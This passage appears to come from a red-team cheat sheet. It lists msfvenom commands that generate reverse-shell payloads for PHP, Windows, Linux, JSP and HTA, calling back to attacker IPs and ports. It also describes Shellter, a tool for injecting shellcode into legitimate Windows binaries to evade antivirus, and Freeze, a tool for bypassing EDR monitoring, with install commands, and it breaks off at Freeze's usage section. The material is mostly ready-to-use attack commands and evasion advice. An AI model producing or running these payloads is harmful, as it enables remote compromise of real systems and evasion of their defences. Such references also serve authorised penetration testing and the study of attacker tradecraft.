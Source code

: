 msfvenom -p php/meterpreter/reverse_tcp lhost =192.168.0.9 lport=1234 R
Windows:

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
Linux:

msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
Java:

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
HTA:

msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f hta-psh > shell.hta
image

🔙Shellter
Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.

It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).

Shellter takes advantage of the original structure of the PE file and doesn’t apply any modification such as changing memory access permissions in sections (unless the user wants), adding an extra section with RWE access, and whatever would look dodgy under an AV scan.

Full README information can be found here.

Install: (Kali)

apt-get update
apt-get install shellter
Install: (Windows)

Visit the download page and install.

Usage:

Just pick a legit binary to backdoor and run Shellter.

Some nice tips can be found here.

Lots of community usage demos can be found here.

image

Image used from https://www.kali.org/tools/shellter/images/shellter.png

🔙Freeze
Freeze is a payload creation tool used for circumventing EDR security controls to execute shellcode in a stealthy manner.

Freeze utilizes multiple techniques to not only remove Userland EDR hooks, but to also execute shellcode in such a way that it circumvents other endpoint monitoring controls.

Install:

git clone https://github.com/optiv/Freeze
cd Freeze
go build Freeze.go
Usage:

